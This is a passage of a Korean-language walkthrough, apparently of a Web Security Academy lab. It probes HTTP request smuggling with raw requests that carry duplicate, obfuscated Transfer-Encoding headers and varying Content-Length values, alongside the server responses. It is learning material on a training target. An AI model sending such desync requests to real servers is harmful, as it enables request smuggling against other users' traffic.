 응답 1. 200응답이 돌아왔다. 

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=tg2uruvnPjQL0BB3Qb7UCKeOEt2zRYyl; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 8255

<!DOCTYPE html>
<html>
...
```

요청 2. 바디는 11바이트다. **CL헤더는 값이 틀리게 들어갔다.** 요청1과 동일하게 TE헤더가 두 개 들어가 있다. 

```http
POST / HTTP/1.1
Host: 0aca00b80465a02381d9cf8a001f0091.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Transfer-Encoding: chunked
Connection: close
Transfer-encoding: identity
Content-length: 3

1\r\n
G\r\n
0\r\n
\r\n
```

응답 2. 200응답이 돌아왔다. 

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=ncaoJJ8hGZK3vnUeZOeFMyLR5f17BUuz; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 8255

<!DOCTYPE html>
<html>
...
```

요청 3. 바디는 13바이트다. CL헤더는 값이 정확하게 들어갔다. 요청1, 요청2와 동일하게 TE헤더가 두 개 들어가 있다. 

```http
POST / HTTP/1.1
Host: 0aca00b80465a02381d9cf8a001f0091.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Transfer-Encoding: chunked
Connection: close
Transfer-encoding: identity
Content-Length: 13

3\r\n
x=y\r\n
0\r\n
\r\n
```

